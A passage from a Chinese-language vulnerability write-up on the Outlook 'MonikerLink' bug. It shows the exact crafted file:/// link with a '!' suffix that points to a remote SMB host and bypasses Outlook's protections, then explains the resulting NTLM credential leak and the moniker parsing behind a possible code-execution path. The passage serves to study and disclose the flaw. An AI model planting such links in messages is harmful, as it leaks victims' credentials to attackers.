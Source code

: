   
  
但是，如果对上面的链接进行一个轻微的修改，例如修改为如下形式：  
```
*<a href="file:///\\10.10.111.111\test\test.rtf!something">CLICK ME</a>*
```  
  
（右滑查看更多）  
  
  
注意，研究人员在“test.rtf”的末尾添加了一个“!”，还添加了一些随机字符“something”。  
  
  
这样的链接将绕过前面讨论的现有Outlook安全限制，并且当用户单击该链接时，Outlook将继续访问远程资源“\\10.10.111.111\test\test.rtf”。  
  
  
这里的关键是特殊的感叹号“!”，这将改变Outlook的行为。  
  
  
**漏洞影响**  
  
  
### 1. 泄露本地NTLM凭据信息  
  
  
很容易观察到，访问远程“test.rtf”的尝试将使用SMB协议（端口445），并且在此过程中会泄漏本地NTLM凭据信息。这与许多其他NTLM凭据泄露技巧的过程相同。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38COhAGL1UiaNSe0bOURNu5PBlsJRJFg98MkhTNgCMoeA5AZibzzRAZXEmqtnwNDh7mEtI0F6ENXXNQ/640?wx_fmt=jpeg&from=appmsg "")  
  
【图3：#MonikerLink作为漏洞被利用时泄露的NTLM凭据信息】  
###   
### 2. 从新的攻击向量到任意代码执行  
  
  
除了泄露本地NTLM凭据信息外，该漏洞还能做到更多吗？这也是研究人员花了很多时间研究的更深层次的问题。从本质上讲，我们需要弄清楚当用户点击像“file:///\\10.10.111.111\test\test.rtf!something”这样的链接时到底发生了什么。  
  
  
事实上，根据深入分析显示，Outlook将该链接视为“Moniker Link”。Monikers是Windows上组件对象模型（COM）的关键概念之一。  
“Moniker Link”字符串意味着调用者将使用该字符串“查找”COM对象。  
  
  
从技术上讲，Outlook调用“ole32!MkParseDisplayName()”API来完成这项工作——解析Moniker Link字符串并使用它来“查找”COM对象。在调试Outlook时，我们可以通过在Windbg的API上设置一个简单的断点（breakpoint）来确认这一点。只要用户点击链接，断点就会被触发。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38COhAGL1UiaNSe0bOURNu5P9vJYc4Oz7YFUsPsG5VuqJd3NS6iciaVkdlfNCdzoXsk4XaeicW6ibCwkRg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
根据微软的API文档显示，API“MkParseDisplayName()”的第二个参数“szUserName”是要解析的“显示名”。我们来验证一下。  
```
0:000> du poi(esp+4*2)
1a168620 "\\10.10.111.111\test\test.rtf!something"
```  
  
（右滑查看更多）  
  
  
可以看到，这里URL协议前缀“file:///”被删除了。  
  
  
此外，正如API文档中所解释的，当它涉及“!”，这意味着这是一个复合名字：一个基于“\\10.10.111.111\test\test.rtf”的FileMoniker，和一个基于“something”的ItemMoniker。  
  